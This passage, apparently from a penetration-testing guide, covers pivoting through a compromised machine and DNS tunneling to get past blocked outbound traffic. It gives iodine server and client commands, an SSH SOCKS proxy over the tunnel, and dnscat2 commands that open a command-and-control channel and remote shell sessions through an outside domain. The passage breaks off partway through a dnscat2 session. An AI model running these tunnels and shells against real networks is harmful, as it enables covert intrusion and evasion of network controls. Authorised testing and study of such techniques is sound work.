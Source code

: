```

```
# ping 1.1.1.100
PING 1.1.1.100 (1.1.1.100) 56(84) bytes of data.
64 bytes from 1.1.1.100: icmp_seq=1 ttl=65 time=42.9 ms
```
Now you can use this machine as gate into the internal network. Use this machine a default gateway or connect to a management interface (ssh/tsh/web shell).


## DNS tunneling

If any WAN traffic is blocked but external host names are resolved then there’s a possibility of tunneling traffic via DNS queries. You need a domain registered for this technique to work. [This manual](http://dev.kryo.se/iodine/wiki/HowtoSetup) might help you with setting up your name server.

### Iodine

If so happens that you got root access on the server you can try [iodine](http://code.kryo.se/iodine/). It works almost like hans icmp tunneling tool - it creates a pair of tun adapters and tunnels data between them as DNS queries. Server side:

```iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com```

Client side:

```iodine -f -P P@ssw0rd tunneldomain.com -r```

Successful connection will yield direct client visibility at address 1.1.1.2. Note, that this tunneling technique is quite slow. Your best bet is to use a compressed ssh connection over the resulting connection:

```ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080```

### Dnscat2

[Dnscat2](https://github.com/iagox86/dnscat2) establishes C&C channel over recursive DNS queries. This tool doesn’t require root/administrator access (works both on windows and linux). It also supports port forwarding. Server side:

```ruby ./dnscat2.rb tunneldomain.com```

Client side:

```./dnscat2 tunneldomain.com```

After you receive a connection of server side, you can view the active sessions with ```windows``` command:

```
dnscat2> windows
0 :: main [active]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = tunneldomain.com [*]
  1 :: command session (debian)
  2 :: sh (debian) [*]
```

To initiate port forwarding select a command session with ```session -i <num>```:

```
dnscat2> session -i 1
New window created: 1
New window created: 1